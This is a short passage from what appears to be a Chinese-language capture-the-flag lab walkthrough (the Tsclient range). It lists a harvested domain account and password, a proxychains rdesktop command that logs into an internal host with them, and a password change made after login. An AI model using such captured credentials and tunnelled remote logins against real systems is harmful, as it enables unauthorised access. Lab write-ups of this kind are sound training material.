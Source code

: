 ![image-20230806163647346](img/春秋云镜-Tsclient/image-20230806163647346.png)

```
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# 
```

### 搭建隧道

kali登录远程连接

```
proxychains rdesktop 172.22.8.46 -u Aldrich -d xiaorang.lab -p 'Ald@rLMWuy7Z!#'
```

进去后修改密码

```
1qaz!QAZ
```
